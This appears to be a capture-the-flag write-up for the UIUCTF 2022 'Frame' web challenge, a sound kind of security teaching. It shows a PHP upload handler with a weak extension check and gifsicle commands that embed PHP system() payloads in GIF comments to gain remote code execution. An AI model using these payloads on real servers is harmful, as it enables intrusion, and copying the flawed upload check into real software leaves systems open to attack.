 # UIUCTF 2022

## Frame

### [source](https://github.com/GiongfNef/ChallFile/blob/main/UIUCTF2022/frame/handout.tar)

![chall](<.gitbook/assets/image (6).png>)

### Analysis:

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

* know that: $allowed\_extensions = array(".jpg", ".jpeg", ".png", ".gif"); -> we can use ".gif" extension file. Finding around and i got [<mark style="color:blue;">`this doc`</mark>](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)<mark style="color:blue;">``</mark>
* We can use `gifsicle`  to embedd PHP code that runs the Linux command into a malicious image named output.php.gif.

### Exploit:

* Firstly, we convert png file that we received from chall to gif file
* I have tried change file extension from png to gif but it doesn't work, of course.

![](<.gitbook/assets/image (3).png>)

* I convert by [online tool](https://cloudconvert.com/png-to-gif) and ... that works. After we that just use this command:

```
gifsicle < frame-1.gif --comment "<?php system('id'); ?>" > output.php.gif
```

* Upload the output gif to server:

![the path of our requesting](<.gitbook/assets/image (9).png>)

Go to that path and get some interesting things:

![](.gitbook/assets/image.png)

* It works, try other commands to rce :

```
gifsicle < frame-1.gif --comment "<?php system('ls /'); ?>" > output.php.gif
```

![Here yah gooooo](<.gitbook/assets/image (4).png>)

* Now just use rce command and got the flag:

```
gifsicle < frame-1.gif --comment "<?php system('cd / && cat flag'); ?>" > output.php.gif
```

![](<.gitbook/assets/image (2).png>)

flag in some confusing thing like this:

![](<.gitbook/assets/image (1).png>)

Thanks for reading. Have a good day :heart: !
